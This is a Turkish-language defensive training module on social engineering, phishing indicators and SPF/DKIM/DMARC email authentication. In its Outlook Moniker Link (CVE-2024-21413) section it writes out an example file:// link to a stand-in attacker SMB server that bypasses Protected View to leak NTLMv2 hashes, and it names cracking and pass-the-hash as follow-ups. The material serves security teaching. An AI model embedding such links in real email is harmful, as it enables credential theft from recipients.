




# 🎣 Sosyal Mühendislik ve Phishing Analizi

En güçlü teknik savunmalar bile, bir çalışanın kötü bir linke tıklamasıyla aşılabilir. Sosyal mühendislik, teknolojiyi değil **insanı** hedefler — ve saldırıların ezici çoğunluğunun başlangıç noktasıdır. Bu dosya, sosyal mühendislik türlerini, phishing e-posta analizini ve e-posta kimlik doğrulama savunmalarını (SPF/DKIM/DMARC) kurar.

> İlgili: [aaa-ve-mfa.md](../06-kimlik-erisim-yonetimi-iam/aaa-ve-mfa.md) (kimlik), [dns-derinlemesine.md](../01-ag-networking/dns-derinlemesine.md) (SPF/DKIM DNS kaydıdır), [log-analizi.md](../11-soc-mavi-takim/log-analizi.md) (süreç zinciri).

---

## 1. Sosyal mühendislik nedir? "İnsan katmanı"

Sosyal mühendislik, insanları **manipüle ederek** gizli bilgi ifşa etmelerini, güvenlik kurallarını çiğnemelerini veya zararlı bir eylem yapmalarını sağlamaktır. "İnsan hackleme"dir.

> **Neden en etkili saldırı vektörü:** Bir yazılım zafiyeti yamalanır; ama insan doğası (yardımseverlik, otoriteye itaat, korku, aciliyet, merak) yamalanmaz. [Kill chain](../07-tehdit-modelleme-cerceveler/cyber-kill-chain.md)'in "Delivery" aşamasının en yaygın yolu phishing'dir, çünkü en güçlü firewall'u değil, en zayıf halkayı (insan) hedefler.

### Manipülasyon ilkeleri (Cialdini)
Saldırganların istismar ettiği psikolojik kaldıraçlar:
| İlke | Nasıl kullanılır |
|------|------------------|
| **Otorite (authority)** | "CEO'dan acil talep", "IT departmanı" |
| **Aciliyet/kıtlık (urgency)** | "Hesabınız 24 saatte kapanacak!" |
| **Korku (fear)** | "Şüpheli giriş tespit edildi, hemen doğrulayın" |
| **Güven/tanıdıklık** | Bilinen marka/kişi taklidi |
| **Yardımseverlik/karşılıklılık** | "Size yardım ediyorum, siz de..." |

---

## 2. Sosyal mühendislik türleri



| Tür | Kanal | Örnek |
|-----|-------|-------|
| **Phishing** | E-posta (toplu) | Sahte banka "hesabınızı doğrulayın" |
| **Spear phishing** | E-posta (hedefli) | İsminle, pozisyonunla kişiselleştirilmiş |
| **Whaling** | E-posta (VIP) | CEO/CFO hedefli, yüksek değerli |
| **BEC** (Business Email Compromise) | E-posta | "CEO'dan" acil havale talebi |
| **Smishing** | SMS | "Kargonuz bekliyor, link" |
| **Vishing** | Telefon | "Banka güvenlik ekibi" arıyor |
| **Pretexting** | Her kanal | Uydurma kimlik/senaryo ile güven kazanma |
| **Baiting** | Fiziksel/dijital | Otoparka "maaş bordrosu" etiketli USB bırakma |
| **Tailgating** | Fiziksel | Kartlı kapıdan birinin peşine takılma |

> **Kesişim — SMS OTP neden zayıf:** Smishing + SIM swap, SMS tabanlı MFA'yı ([aaa-ve-mfa.md](../06-kimlik-erisim-yonetimi-iam/aaa-ve-mfa.md)) atlatmanın yoludur — bu yüzden FIDO2/passkey phishing'e dayanıklı savunma olarak öne çıkar.

---

## 3. Phishing saldırı zinciri



Bu zincir, [log-analizi.md](../11-soc-mavi-takim/log-analizi.md) Senaryo B'deki `Outlook→Word→PowerShell→C2` süreç zincirinin saldırgan tarafıdır. Savunmacı bu zinciri loglardan tersine okur.

### Tıklama gerektirmeyen kimlik sızması: Moniker Link (CVE-2024-21413)

Phishing her zaman "sahte giriş sayfası" ya da "makrolu ek" değildir. Bazı saldırılar, kurbanın **parolasını girmesine bile gerek kalmadan** kimlik bilgisini sızdırır. Bunun öğretici bir örneği, Microsoft Outlook'taki **Moniker Link** zafiyetidir (CVE-2024-21413, Check Point Research tarafından bulundu, Şubat 2024'te yamalandı; CVSS 9.8 *(kesin CVSS ve teknik ayrıntı biçimi doğrulanmalı — bu oturumda canlı kaynak teyidi yapılamadı)*).

**Mekanizma:** Outlook normalde yerel/uzak dosyalara giden `file://` bağlantılarını "Protected View" (Korumalı Görünüm) ile bloke eder veya uyarı verir. Zafiyet, bağlantı hedefinin sonuna bir **ünlem işareti (`!`)** ve rastgele metin eklendiğinde (ör. `file:///\\saldirgan-sunucu\paylasim\dosya.rtf!x`) bu korumanın atlanmasıdır — Outlook bunu bir "Moniker Link" olarak COM üzerinden işler. Sonuç: kurban e-postayı açtığında (veya önizlediğinde) Outlook, saldırganın SMB sunucusuna (`\\saldirgan-sunucu`) otomatik bağlanır ve bu bağlantı sırasında kullanıcının **NTLMv2 kimlik doğrulama hash'ini** ([windows-temelleri.md](../02-linux-windows/windows-temelleri.md) SAM/NTLM) sunucuya sızdırır.

**Neden bu kadar önemli — zincir:** Bu, tek bir zafiyetin nasıl bir saldırı zincirine dönüştüğünün ders niteliğinde örneğidir:



Sızan NTLMv2 hash'i saldırganın iki yolu vardır: **(a) offline kırma** — hedefin göremediği, hızlı, sessiz bir işlem ([../05-kriptografi/pratik-lab/hash_kirma_john_hashcat.md](../05-kriptografi/pratik-lab/hash_kirma_john_hashcat.md); online brute-force ile farkı → [../10-pentest-metodolojisi/somuru-ve-sonrasi.md](../10-pentest-metodolojisi/somuru-ve-sonrasi.md) §1.5); veya **(b) NTLM relay / Pass-the-Hash** — hash'i hiç kırmadan doğrudan başka bir sisteme kimlik olarak sunma ([../02-linux-windows/windows-temelleri.md](../02-linux-windows/windows-temelleri.md)). NTLM'in salt kullanmaması ([../05-kriptografi/temel-kavramlar.md](../05-kriptografi/temel-kavramlar.md)) offline kırmayı kolaylaştırır.

> **Savunma:** Outlook/Windows yamalarını güncel tut (bu spesifik CVE yamalı); giden SMB (port 445) trafiğini kurumsal ağdan dışarıya engelle (böylece NTLM hash dışarı sızamaz); NTLM'i mümkünse Kerberos/modern kimlik ([../02-linux-windows/windows-temelleri.md](../02-linux-windows/windows-temelleri.md)) lehine devre dışı bırak. **Benzer teknikler** (SMB'ye zorunlu kimlik doğrulama ile NTLM sızdırma) tek bir CVE'ye özgü değildir — UNC yolları, `.lnk`, `.url`, resim `src`'leri ve belge şablonları da tarihsel olarak bu amaçla kullanılmıştır; kök sorun Windows'un `\\sunucu\...` görünce **otomatik ve şeffaf kimlik doğrulaması**dır.

---

## 4. Phishing e-posta analizi (savunmacı becerisi)

Bir SOC analisti veya dikkatli kullanıcı, bir e-postayı şu göstergelerle inceler:

### Kontrol listesi
- [ ] **Gönderen adresi (from):** Görünen ad ile gerçek adres uyuşuyor mu? `Apple Support <security@apple-verify.ru>` → sahte.
- [ ] **Alan adı sahteciliği:** Benzer görünen alan adları — `paypa1.com` (l yerine 1), `micros0ft.com`, `apple-verify.com` (typosquatting/homoglyph).
- [ ] **Link hedefi:** Linkin **görünen metni** ile **gerçek URL'si** farklı mı? (Üzerine gel, tıklama.) `www.banka.com` yazıp `evil.ru`'ya gitmek klasik.
- [ ] **Aciliyet/tehdit dili:** "Hemen", "24 saat", "hesabınız kapatılacak".
- [ ] **Genel selamlama:** "Sayın müşteri" (isminizi bilmiyor) — toplu phishing işareti.
- [ ] **Ekler:** Beklenmedik `.docm`, `.zip`, `.exe`, `.html` ekleri.
- [ ] **Dilbilgisi/yazım:** (Giderek azalan bir gösterge — AI ile artık daha az güvenilir.)

### E-posta başlıklarını (headers) inceleme
Gerçek analiz, e-posta **başlıklarındadır** (raw header):
```
Received: ...           → e-postanın gerçek yolculuğu (kaynak sunucu)
Return-Path: ...        → gerçek dönüş adresi (from ile uyuşuyor mu?)
Authentication-Results: → SPF / DKIM / DMARC sonuçları (aşağıda!)
```

> 📸 EKRAN GÖRÜNTÜSÜ EKLENECEK: Bir phishing örneğinin ham başlıkları — `Authentication-Results` satırında `spf=fail` veya `dmarc=fail`.

---

## 5. E-posta kimlik doğrulama: SPF, DKIM, DMARC

E-posta protokolü (SMTP) 1980'lerde **kimlik doğrulama düşünülmeden** tasarlandı — bu yüzden gönderen adresi sahtelemek (spoofing) kolaydır. Üç mekanizma bu boşluğu kapatır; **hepsi DNS kayıtlarıdır** ([dns-derinlemesine.md](../01-ag-networking/dns-derinlemesine.md) TXT kayıtları).



| Mekanizma | Ne doğrular | Nasıl | DNS kaydı |
|-----------|-------------|-------|-----------|
| **SPF** (Sender Policy Framework) | Gönderen **IP'sinin** alan adına ait olması | Alan adı, "bu sunucular benim adıma mail atabilir" der | TXT: `v=spf1 include:_spf.google.com ~all` ([RFC 7208](https://www.rfc-editor.org/rfc/rfc7208)) |
| **DKIM** (DomainKeys Identified Mail) | E-postanın **değiştirilmediği** + gerçekten o alandan geldiği | Gönderen sunucu e-postayı **imzalar** ([anahtar-degisimi-ve-imza.md](../05-kriptografi/anahtar-degisimi-ve-imza.md) dijital imza), alıcı açık anahtarla doğrular | TXT: DKIM açık anahtarı ([RFC 6376](https://www.rfc-editor.org/rfc/rfc6376)) |
| **DMARC** | SPF/DKIM'in **hizalı** olması + başarısızlık **politikası** | "SPF/DKIM başarısızsa ne yap: none/quarantine/reject" + rapor | TXT: `v=DMARC1; p=reject; rua=...` ([RFC 7489](https://www.rfc-editor.org/rfc/rfc7489)) |

### Nasıl birlikte çalışırlar
- **SPF** IP'yi kontrol eder ama e-posta iletilirse (forward) bozulabilir.
- **DKIM** içeriğin bütünlüğünü/kaynağını imzayla kanıtlar.
- **DMARC** ikisini birleştirir: "SPF **veya** DKIM geçmeli **ve** görünen from ile hizalı olmalı; değilse politikamı (reject) uygula" + gönderene **rapor** yollar.

> **DMARC politikası kritik:** `p=none` (sadece izle), `p=quarantine` (spam'e at), `p=reject` (tamamen reddet). Birçok kuruluş `p=none`'da kalır (izleme) ve spoofing'e açık kalır — gerçek koruma `p=reject`'tedir. Kendi alan adının DMARC durumunu kontrol et:
```bash
dig TXT _dmarc.ornek.com +short
dig TXT ornek.com +short | grep spf
```

---

## 6. Nüans ve savunma katmanları

- **Teknik + insan katmanı birlikte:** SPF/DKIM/DMARC spoofing'i büyük ölçüde durdurur ama saldırgan **kendi** (meşru DMARC'lı) alan adından benzer-isimli (`ornek-destek.com`) mail atabilir. Bu yüzden teknik savunma + **kullanıcı farkındalığı** ([kontrol matrisi](../08-grc-yonetisim-risk-uyum/guvenlik-kontrolleri-matrisi.md) idari kontrol) birlikte gerekir.
- **Phishing simülasyonu:** Kuruluşlar çalışanlara kontrollü sahte phishing gönderip eğitir (tıklama oranını ölçer). En etkili idari kontrollerden.
- **Savunma derinliği:** E-posta filtresi (Delivery'yi kır) + makro kısıtlama (Exploitation'ı kır) + EDR (Installation'ı kır) + MFA (çalınan parola işe yaramasın) + segmentasyon (yayılmayı durdur). Tek katman yeterli değil.
- **AI çağında phishing:** Üretken yapay zeka, dilbilgisi hatalarını (klasik ipucu) ortadan kaldırıp çok daha inandırıcı, kişiselleştirilmiş phishing üretiyor. "Kötü yazım" göstergesine güven azalıyor; teknik doğrulama (SPF/DKIM/DMARC, link analizi) ve sıfır güven daha da kritik.

---

## 7. Saldırı–savunma kesişimi (özet)

- **İnsan en zayıf ama en güçlü halka:** Eğitimli, şüpheci bir kullanıcı en iyi sensördür ("bir şey yanlış" deyip bildiren çalışan, bir saldırıyı erken durdurur). Savunma insanı hem korur hem savunma katmanına dönüştürür.
- **DNS savunmanın parçası:** SPF/DKIM/DMARC'ın DNS'te ([dns-derinlemesine.md](../01-ag-networking/dns-derinlemesine.md)) yaşaması, e-posta güvenliğinin ağ temeliyle iç içe olduğunu gösterir.
- **Kill chain'in ilk halkası:** Phishing çoğu saldırının başlangıcı olduğu için, burada kırmak ([cyber-kill-chain.md](../07-tehdit-modelleme-cerceveler/cyber-kill-chain.md)) en yüksek getirili savunmadır — hasar başlamadan durur.

> **Modül 12 tamamlandı.** Sonraki: [13-guvenli-kodlama-devsecops/guvenli-kodlama-ilkeleri.md](../13-guvenli-kodlama-devsecops/guvenli-kodlama-ilkeleri.md).
